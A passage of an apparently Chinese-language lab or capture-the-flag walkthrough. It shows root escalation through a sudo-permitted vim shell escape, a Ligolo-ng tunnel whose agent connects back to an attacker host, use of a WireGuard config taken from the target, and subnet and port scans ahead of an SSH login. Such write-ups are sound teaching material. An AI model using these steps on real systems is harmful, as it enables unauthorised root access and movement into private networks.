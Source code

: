 查看 sudo 权限看看有没有惊喜

![image](https://github.com/user-attachments/assets/6f8a870e-d91e-45b6-a838-32bbd15fcdcc)

vim 提权有很多方式，可以通过 gtfobins查看，我的方式是进入 vim 然后进入命令模式,`!/bin/bash` 提权

> [!IMPORTANT]
> https://gtfobins.github.io/

具体就是先输入 `:` 再输入 `!/bin/bash`

# 7.VPN 隧道与进一步渗透

查看 `根` 目录，发现一个名为 `tunnelRafael.conf` 的文件，它与 VPN（虚拟专用网络）工具 WireGuard 的典型配置相匹配。

![image](https://github.com/user-attachments/assets/e53b5f4b-799e-44cb-86b5-bebcbe269a2a)

先使用Ligolo-NG把隧道建立一下

> [!IMPORTANT]
> https://github.com/nicocha30/ligolo-ng

```
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 172.101.0.0/28 dev ligolo
./ligolo-agent -connect 192.168.205.141:11601 -ignore-cert
ligolo-proxy -selfcert
```

现在我们已经使用代理手段在目标网络内了，然后通过 WireGuard 连接 VPN（这里记得把 `tunnelRafael.conf` 托到攻击机）

```
sudo apt install wireguard-tools resolvconf
wg-quick up tunnelRafael.conf
```

![image](https://github.com/user-attachments/assets/bf6081a9-6418-4531-ba38-ecf7af7afbfb)

建立成功，网段为 10.13.13.0/24

扫描到通过 VPN 建立的子网 **10.13.13.0/24**

```
fping -asgq 10.13.13.0/24
```

![image](https://github.com/user-attachments/assets/53939c0f-4585-4095-9e62-4b4d3b66c8b8)

根据推测可以看出应该是 10.13.13.3，扫描一下 22 端口是不是开放的，因为我们还有一个 `jerry` 用户信息没用过

```
nmap -p22 -Pn 10.13.13.3
```

![image](https://github.com/user-attachments/assets/22fc3b72-3125-4a48-954d-3828b7e2d389)

确实是开放的，连接上去
